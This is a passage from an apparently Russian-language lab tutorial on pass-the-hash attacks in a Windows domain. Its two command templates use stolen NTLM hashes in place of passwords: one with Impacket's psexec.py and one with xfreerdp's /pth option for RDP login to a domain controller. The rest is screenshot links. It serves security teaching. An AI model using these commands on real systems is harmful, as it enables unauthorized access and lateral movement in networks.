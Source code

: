 Вот так получится:

---

![https://i.imgur.com/GMTURNN.png](https://i.imgur.com/GMTURNN.png)

https://i.imgur.com/GMTURNN.png

  

---

Есть аналог -- psexec

> python3 psexec.py domain/username:password@hostIP python3 psexec.py domain/username@hostIP -hashes LMHASH:NTHASH

### 2.2 XFreeRDP

С хешем можно зайти даже по RDP. Для этого используется следующая команда

> xfreerdp /d:domainname /u:username /v:ipaddr /pth:NTHASH

Но для начала включим удалённый доступ по RDP на dc1, доступ дадим администраторам домена

---

![https://i.imgur.com/ekWO2iR.png](https://i.imgur.com/ekWO2iR.png)

https://i.imgur.com/ekWO2iR.png

  

---

![https://i.imgur.com/pe89GOe.png](https://i.imgur.com/pe89GOe.png)

https://i.imgur.com/pe89GOe.png

  

---

Попробуем зайти на dc1

---

![https://i.imgur.com/DphHyj6.png](https://i.imgur.com/DphHyj6.png)

https://i.imgur.com/DphHyj6.png

  

---

подтвердим сертификат

---

![https://i.imgur.com/vN9Uyls.png](https://i.imgur.com/vN9Uyls.png)
